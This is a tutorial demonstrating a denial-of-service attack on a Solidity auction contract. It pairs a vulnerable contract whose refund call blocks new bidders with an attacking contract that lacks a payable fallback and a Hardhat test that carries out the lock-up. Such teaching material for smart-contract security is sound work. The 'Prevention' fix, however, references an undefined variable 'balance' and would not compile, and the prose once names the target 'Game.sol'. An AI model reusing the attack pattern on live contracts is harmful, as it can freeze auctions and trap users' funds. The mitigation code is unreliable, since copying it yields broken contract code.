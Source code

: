 # Denial of Service

A Denial of Service (DOS) attack is a type of attack that is designed to disable, shut down, or disrupt a network, website, or service. This is a very common attack which we all know about in web2 as well but today we will try to immitate a Denial of Service attack on a smart contract

Lets goo 🚀

## DOS Attacks in Smart Contracts

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol` will be used to run a sample auction where it will have a function in which the current user can become the current winner of the auction by sending `Good.sol` higher amount of ETH than was sent by the previous winner. After the winner is replaced, the old winner is sent back the money which he initially sent to the contract.

`Attack.sol` will attack in such a manner that after becoming the current winner of the auction, it will not allow anyone else to replace it even if the address trying to win is willing to put in more ETH. Thus `Attack.sol` will bring `Game.sol` under a DOS attack because after it becomes the winner, it will deny the ability for any other address to becomes the winner.


### Build

Lets build an example where you can experience how the the attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```
  
- If you are not on mac, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

and press `Enter` for all the questions.

Let's create the auction contract, named `Good.sol`, with the following code.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if (sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```

This is a pretty basic contract which stores the address of the last highest bidder, and the value that they bid. Anyone can call `setCurrentAuctionPrice` and send more ETH than `currentAuctionPrice`, which will first attempt to send the last bidder their ETH back, and then set the transaction caller as the new highest bidder with their ETH value.

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

This contract has a function called `attack()`, that just calls `setCurrentAuctionPrice` on the `Good` contract. Note, however, this contract does not have a `fallback()` function where it can receive ETH. More on this later.

Let's create an attack that will cause the `Good` contract to become unusable. Create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Now lets attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the aution
    let tx = await _goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await _attackContract.attack({
      value: ethers.utils.parseEther("3.0"),
    });
    await tx.wait();

    // Now lets trying making addr2 the current winner of the auction
    tx = await _goodContract.connect(addr2).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("4"),
    });
    await tx.wait();

    // Now lets check if the current winner is still attack contract
    expect(await _goodContract.currentWinner()).to.equal(
      _attackContract.address
    );
  });
});
```

Notice how `Attack.sol` will lead `Good.sol` into a DOS attack. First `addr1` will become the current winner by calling `setCurrentAuctionPrice` on `Good.sol` then `Attack.sol` will become the current winner by sending more ETH than `addr1` using the attack function. Now when `addr2` will try to become the new winner, it wont be able to do that because of this check(`if (sent)`) present in the `Good.sol` contract which verifies that the current winner should only be changed if the ETH is sent back to the previous current winner.

Since `Attack.sol` doesnt have a `fallback` function which is necessary to accept ETH payments, `sent` is always `false` and thus the current winner is never updated and `addr2` can never become the current winner

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the `Good.sol` is now under DOS attack because after `Attack.sol` becomes the current winner, on other address can becomes the current winner. 

## Prevention

- You can create a seperate withdraw function for the previous winners.

Example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;
    mapping(address => uint) public balances;
    
    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        balances[currentWinner] += balance;
        currentAuctionPrice = msg.value;
        currentWinner = msg.sender;
    }
    
    function withdraw() public {
        require(msg.sender != currentWinner, "Current winner cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

Hope you liked this level ❤️, keep building.

WAGMI 🚀

## Refereces
- [Solidity by example](https://solidity-by-example.org/)
